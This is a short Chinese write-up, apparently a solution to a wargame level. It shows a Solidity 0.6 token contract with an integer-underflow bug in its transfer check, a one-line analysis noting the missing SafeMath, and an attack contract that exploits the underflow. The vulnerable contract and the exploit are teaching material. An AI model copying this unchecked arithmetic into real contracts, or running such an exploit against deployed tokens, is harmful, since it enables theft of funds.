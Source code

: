 ### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```
### 分析

Solidity 0.6 版本没有做 SafeMath 处理，运算会有溢出风险

### 攻击
```
// SPDX-License-Identifier: mit

pragma solidity ^0.6.0;

contract Hack{
    Token private immutable target;

    constructor (address _target) public {
        target = Token(_target);
        
    }

    function transfer() public {
        target.transfer(msg.sender, 1);
    }
}
```

### 笔记
